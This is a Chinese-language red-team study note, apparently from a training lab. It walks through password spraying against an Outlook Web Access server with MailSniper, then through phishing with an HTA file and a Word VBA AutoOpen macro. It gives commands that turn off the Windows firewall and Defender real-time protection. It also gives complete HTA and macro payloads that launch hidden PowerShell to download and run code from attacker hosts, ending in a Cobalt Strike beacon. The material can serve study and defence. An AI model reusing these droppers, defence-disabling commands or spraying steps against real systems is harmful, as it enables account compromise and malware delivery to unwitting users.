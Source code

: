 # 哈希喷洒

使用工具：[MailSniper](https://github.com/dafthack/MailSniper)和[SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)

**注意，下面操作必须先禁用windows Defender 的实时保护**

1. 关闭防火墙：
```NetSh Advfirewall set allprofiles state off```

关掉实时防护
```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

引入MailSniper.ps1
```
PS C:\> ipmo C:\Tools\MailSniper\MailSniper.ps1
```

枚举NetBIOS 
```
PS C:\Users\Administrator> Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100
[*] Harvesting domain name from the server at 10.10.15.100
The domain appears to be: CYBER or cyberbotic.io
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658538796242.png)


从```https://cyberbotic.io```收集到一份用户名单
```
root@kali:~# cat names.txt
Bob Farmer
Isabel Yates
John King
Joyce Adams
```

根据上面的用户名单制作成一份各种名字的组合方式列表
```
root@kali:~# /opt/namemash.py names.txt >> possible-usernames.txt
root@kali:~# head -n 5 possible-usernames.txt
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658538616187.png)


把用户名单从kali拷贝到啊windwos攻击机
```
 pscp root@kali:/root/possible-usernames.txt .
```

探测合法的用户名
```
 Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539073418.png)


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539231023.png)

合法的用户名是：```CYBER\iyates```


假设我们此时知道了一个密码，根据上面的合法用户名单，对密码进行喷洒
```
Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539331939.png)

# 网络钓鱼

一个hta文件样板
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```


建立一个监听
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539559821.png)

建立一个hta，选择上面的监听

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658539710862.png)


生成payload：```Attacks > Web Drive-by > Scripted Web Delivery (S)```

(64位)
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"
```

(32位)
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```


把payload复制到hta里
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
	  Set shell = CreateObject("wscript.Shell")

	  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
	  Else
	    shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/b'))"""
	  End If

	End Function

    Pwn
  </script>
</html>
```

尝试点击hta文件，获得shell
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658540407567.png)

生成payload：``` Attacks > Web drive-by > Host File```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658541257705.png)

得到一个钓鱼链接：
```
http://10.10.5.120:80/id_rsa
```


# VBA宏

创建宏
```
View > Macros > Create
```

一个基本的宏代码
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

其实跟上面的hta大同小异，把

64：
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:80/a'))"
```
32：
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:80/b'))"
```

宏代码：
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:80/a'))"""
	  Else
	    shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.1.5:80/b'))"""
  End If

End Sub
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658542072298.png)

登录WKSTN-1 ，自动登录到bfarmer的账号，接受邮件，点击链接或者doc文件
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658542667640.png)

CS返回一个Bacon
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658542784090.png)

